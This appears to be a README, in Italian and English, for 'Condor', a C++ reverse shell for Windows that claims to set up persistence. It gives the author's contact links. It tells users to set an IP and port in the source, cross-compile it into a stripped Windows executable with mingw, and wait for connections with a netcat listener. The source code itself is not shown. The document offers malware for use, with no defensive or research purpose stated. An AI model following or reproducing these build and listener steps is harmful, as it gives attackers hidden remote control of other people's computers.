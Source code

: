 ##reverse shell V1.0
<Language> C++
<Author>Condor
<Organization> I'M ROOT 
<Discord> https://discord.gg/wkn8gdEjjW
<Instagram> https://www.instagram.com/_samueleabbate/
<Info> samuele13213@gmail.com
<JobApplication> samuele13213@gmail.com
<Service> samuele13213@gmail.com

<ITA>
Una reverse shell che crea una persistenza!!!
Per qualsiasi problema o richiesta vi consiglio di unirvi nel discord di I'M ROOT "https://discord.gg/wkn8gdEjjW"
Sarò felice di aiutarvi.

<en>
A reverse shell that creates persistence !!!
For any problem or request I suggest you join the I'M ROOT discord 
"https://discord.gg/wkn8gdEjjW"
I will be happy to help you.

##  change The IP and Port number in the source code

    There is **condor.cpp** file you have to open and change the **ip address** and **port number**

## Compile it

    apt install mingw-w64

    i686-w64-mingw32-g++ condor.cpp -o condor.exe -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc

## Start  the netcat Listener
    
    nc -lvnp <port number>
